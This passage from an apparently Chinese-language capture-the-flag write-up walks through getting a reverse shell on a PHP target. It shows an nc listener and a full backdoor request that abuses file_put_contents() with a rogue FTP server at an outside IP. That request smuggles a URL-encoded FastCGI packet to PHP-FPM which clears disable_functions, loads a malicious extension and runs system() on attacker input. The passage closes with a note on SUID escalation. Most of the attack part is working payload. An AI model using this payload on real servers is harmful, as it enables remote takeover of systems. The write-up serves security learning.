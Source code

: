 
[![](assets/1698897074-dddf739db09d96474f3457c262fe4f6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9689433a-b2e5-1.png)

然后在 vps 上开启一个 nc 监听，用于接收反弹的 shell：

[![](assets/1698897074-03d90f28a76427f35b49c919c0e182b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-96a1e7f0-b2e5-1.png)

最后通过 eval() 构造如下恶意代码通过 file\_put\_contents() 与我们 vps 上恶意的 ftp 服务器建立连接：

```plain
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B3PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+hpdoger.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9000%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

此时当 ftp 建立连接后，会通过被动模式将 payload 重定向到目标主机本地 9001 端口的 PHP-FPM 上，并成功反弹 Shell：

[![](assets/1698897074-bb1005645d20204a4c84102084612ec2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134751-96c8a3f4-b2e5-1.png)

后面就是一个 SUID 提权了，利用的是 /usr/local/bin/php，直接进行 PHP 交互模式执行代码获取 flag 即可。

## 未完待续......
